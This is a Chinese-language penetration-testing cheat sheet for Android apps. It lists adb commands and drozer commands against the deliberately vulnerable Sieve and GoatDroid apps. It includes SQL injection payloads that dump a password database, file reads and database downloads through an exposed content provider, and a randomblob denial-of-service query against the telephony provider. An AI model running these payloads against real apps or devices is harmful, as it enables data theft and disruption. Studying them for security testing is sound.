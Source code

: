 # App渗透测试记录 

### 1. 常用命令  

1. 获取已安装应用的包名  

 		adb shell pm list packages  
 
2. 获取包名对应的APK路径
 
 		adb shell pm path com.vivo.sdkplugin 
3. 把APK pull到本地  

 		adb pull /data/app/com.vivo.sdkplugin-zvXOuWJKeKVhhESsKWxOxg==/base.apk abc.apk
4. aapt获取APK包的信息 
 
 		aapt dump badging apk_path  

5. 获取应用的信息  

 		adb shell dumpsys package <package_name>  

6. 获取当前运行的Activity   

		adb shell dumpsys activity | grep -i run   
 
7. 获取和用户正在交互的Activity  
 
 		adb shell dumpsys activity  | grep "mFoc"
 		

### 2. drozer使用  

1. adb forward tcp:31415 tcp:31415  
2. drozer console connect  
3. run app.package.list 
4. run app.package.list -f sieve 
5. run app.package.info -a com.mwr.example.sieve  
6. 检查攻击面：  
 
 		run app.package.attacksurface com.mwr.example.sieve  
 
#### 1. Activity测试  
1. 查看activity信息：  

 		run app.activity.info -a com.mwr.example.sieve

2. 启动activity信息：  
	1. Activity通常就是一个单独的屏幕，可以显示一些控件也可以监听并处理用户的的事件最初响应；   
 	2. Activity之间通过Intent进行通信，最重要的部分：动作和动作对应的数据  
 	3. 越权访问问题  

			run app.activity.start –-component com.mwr.example.sieve com.mwr.example.sieve.PWList  
	4. 翻译编译代码，确定activity需要传递的参数，启动activity：  
			
			run app.activity.start --component com.example.pacakge com.example.activity --extra string package strvalue --extra string appid appidvalue    


#### 2. Provider测试  
1. 查看content provider信息  

 		run app.provider.info -a com.mwr.example.sieve  

2. 查找可以访问的content provider的URI  
	1. 最好需要打开应用程序，保证应用程序在运行  
	2. 数据泄露  

 			run scanner.provider.finduris -a com.mwr.example.sieve

 	3. 查询、修改数据：  
 		
 			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ –-vertical
 			
3. 进行SQL注入  

	1. SQLite数据库使用SQL语句，所以进行SQL注入，使用projection参数和selection参数可以传递一些简单点得SQL注入语句，获取到详细的报错信息：    
 
  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"   

  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'" 
   
	2. 查询所有数据库表：  
  
  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE TYPE='table';-- "   
  
 	3. 列出数据库内容：
 
  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;-- "   
    
4. 扫描注入：
 
  		run scanner.provider.injection -a APP
  
5. 从File Content Providers获取信息：    
 	1. File System-backed Content Provider提供了访问底层文件系统的方法，Android沙盒会阻止App共享文件允许，而File System-backed Content Provider允许App共享文件。 
 	2. 对于sieve来说，我们可以推测出的FileBackupProvider就是一个file system-backed content provider。 我们可以使用drozer的app.provider.read模块查看某个文件：
  
  			run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts  
6. 文件下载：
 
  		run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db /home/user/database.db  

7. 检查是否存在遍历文件漏洞
 
  		run scanner.provider.traversal -a com.mwr.example.sieve   
 
8. 本地拒绝服务测试  
	
		run app.provider.query content://telephony/siminfo/ --selection "_id=LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))*LENGTH(randomblob(1000000000))"
	
 
#### 3. Broadcast测试：  
	
BroadcastReceive广播接收器应用可以使用它对外部事件进行过滤只对感兴趣的外部事件(如当电话呼入时，或者数据网络可用时)进行接收并做出响应。广播接收器没有用户界面。然而，它们可以启动一个activity或serice 来响应它们收到的信息，或者用NotificationManager来通知用户。通知可以用很多种方式来吸引用户的注意力──闪动背灯、震动、播放声音等。一般来说是在状态栏上放一个持久的图标，用户可以打开它并获取消息。   

1. 查看暴露的广播组件信息：
 
  		run app.broadcast.info -a com.package.name  
 
    
2.  发送信息：
 
  		run app.broadcast.send --component packagename receivername --action android.intent.action.XXX

    
3.  空action：
 
  		run app.broadcast.send --component packagename ReceiverName
  
4. 空extras:
 
  		run app.broadcast.send --action android.intent.action.XXX

#### 4. service测试：  

1. 获取service：
  
  		run app.service.info -a com.mwr.example.sieve
  
2. 向某个服务发送信息：
 
  		run app.service.send com.mwr.example.sieve com.mwr.example.sieve.CryptoService –msg 1 5 3
3. 启动service：
 
  		run app.service.start --action org.owasp.goatdroid.fourgoats.services.LocationService --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.services.LocationService
  
4. 使用命令：  
  
  		run app.service.send <package name> <component name> --msg <what> <arg1> <arg2> --extra <type> <key> <value> --bundle-as-obj
  		
 